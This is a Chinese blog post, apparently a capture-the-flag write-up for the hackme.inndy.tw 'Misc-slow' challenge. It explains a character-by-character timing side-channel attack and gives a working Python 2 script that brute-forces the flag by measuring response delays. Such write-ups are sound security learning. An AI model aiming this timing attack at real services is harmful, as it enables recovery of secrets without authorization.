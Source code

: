 <!--yml
category: 未分类
date: 2022-04-26 14:48:20
-->

# CTF-hackme-Misc-slow-解题记录_qql2011的博客-CSDN博客

> 来源：[https://blog.csdn.net/qql2011/article/details/109261906](https://blog.csdn.net/qql2011/article/details/109261906)

#### 题目：

```
nc hackme.inndy.tw 7708
OMG, It's slow. 
```

### 解题步骤

本题采用的是时序攻击，第一次见这种题目，也是参靠了别人的代码做出来的
具体原理就是用你输入的flag和数据库中的从第一位开始比对，比对到错误的那一位直接退出。

1.  假设每比对一位的耗时是1s，正确的flag前五位一定是`FLAG{`
2.  当输入`FLAG{_}`时，如果耗时6s，说明第六位`_`是错的，因为比对到`_`就退出了，如果耗时7s，则说明`_`是对的，因为比对到第7位`}`才退出
3.  利用这种原理，可以一位位的破解出flag
4.  此题及其耗时程序大概有执行1-2个小时

```
 import socket
import time

def remote(s,a) :
    berror = True 
    while berror == True :
        try :
            client = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            client.connect((s,a))
            berror = False
            return client
        except socket.error : 
            print '---socket.error'
            client.close()
            berror = True

string = '_9876543210ZYXWVUTSRQPONMLKJIHGFEDCBA'
flag1 = ['F','L','A','G','{']
flag2 = '}'
start_delay = 6
break_flag = 0
while True :
    for i in string:
        p = remote('hackme.inndy.tw', 7708)
        time.sleep(0.2) 
        temp = p.recv(1024)

        a = time.time()
        payload = ''.join(flag1)+i+flag2

        p.send(payload)
        s = p.recv(1024)

        b = time.time()
        print '%s [+] Delay: %d s' % (payload,int(b-a))
        p.close()

        if int(b-a) == start_delay + 1: 
            flag1.append(i)
            start_delay += 1
            break
        if i == 'A': 
            print 'flag is %s' %(''.join(flag1)+flag2)
            print 'over___'
            break_flag = 1
            break
    if break_flag == 1 :
            break 
```

![Misc-slow](img/6c4fe38a63c1caa4465f5b88b8784dbe.png)